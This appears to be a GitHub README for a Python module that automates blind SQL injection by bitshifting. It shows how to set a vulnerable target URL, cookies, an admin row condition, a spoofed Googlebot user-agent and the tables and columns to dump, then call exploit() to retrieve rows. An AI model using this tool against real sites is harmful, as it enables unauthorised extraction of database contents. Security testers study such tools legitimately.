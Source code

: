 # Blind SQL Injection via Bitshifting

This is a module that performs blind SQL injection by using the bitshifting method to **calculate** chars instead of guessing them. It requires exactly 8 requests per character.

Further efficiency is possible as specified in the original [paper](https://www.exploit-db.com/papers/17073/):

```
Further optimizing this technique can be done.
The ASCII table is just 127 characters which is 7 bits per character so we can assume we will never go over it and decrement this technique with 1 request per character.
```

This module does not make those assumptions, but can with some slight modifications. This is so that it can handle all scenarios, including edge cases.

## Usage
```
import blind-sql-bitshifting as x

# Edit this dictionary to configure attack vectors
x.options
```

### Example configuration: 

```
# Vulnerable link
x.options["target"] = "http://www.example.com/index.php?id=1"

# Specify cookie (optional)
x.options["cookies"] = ""

# Specify a condition for a specific row, e.g. 'uid=1' for admin (optional)
x.options["row_condition"] = ""

# Boolean option for following redirections
x.options["follow_redirections"] = 0

# Specify user-agent
x.options["user_agent"] = "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)"

# Specify table to dump
x.options["table_name"] = "table"

# Specify columns to dump
x.options["columns"] = "col1,col2"

# String to check for on page after successful statement
x.options["truth_string"] = "<p id='header'>true</p>"
```

Then:

`x.exploit()`

This returns a 2-dimensional array, with each sub-array containing a single row, the first being the column headers.

Example output:

`[['id', 'username'], ['1', 'lol'], ['2', 'lel']]`
